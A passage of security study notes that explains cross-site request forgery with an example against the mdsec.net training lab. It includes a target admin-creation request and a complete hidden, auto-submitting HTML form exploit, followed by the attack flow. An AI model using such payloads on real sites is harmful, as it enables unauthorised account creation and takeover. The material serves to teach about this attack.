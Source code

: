 If all three are true → **game on**.

---

## **Example Attack**

### **Target Request**

```
POST /auth/390/NewUserStep2.ashx HTTP/1.1
Host: mdsec.net
Cookie: SessionId=8299BE6B260193DA076383A2385B07B9
Content-Type: application/x-www-form-urlencoded

realname=daf&username=daf&userrole=admin&password=letmein1&confirmpassword=letmein1
```

---

### **Exploit HTML (Attacker’s Site)**

```html
<html>
<body>
<form action="https://mdsec.net/auth/390/NewUserStep2.ashx" method="POST">
  <input type="hidden" name="realname" value="daf">
  <input type="hidden" name="username" value="daf">
  <input type="hidden" name="userrole" value="admin">
  <input type="hidden" name="password" value="letmein1">
  <input type="hidden" name="confirmpassword" value="letmein1">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

---

### **Attack Flow**

1. Victim admin is logged into `mdsec.net`.
2. Admin visits attacker’s malicious webpage.
3. Hidden form **auto-submits** a POST request to `mdsec.net`.
4. Browser sends:

   * All hidden fields
   * Victim’s `SessionId` cookie
5. Server processes it as if *admin* submitted it.
6. New admin account created — attacker wins.

---
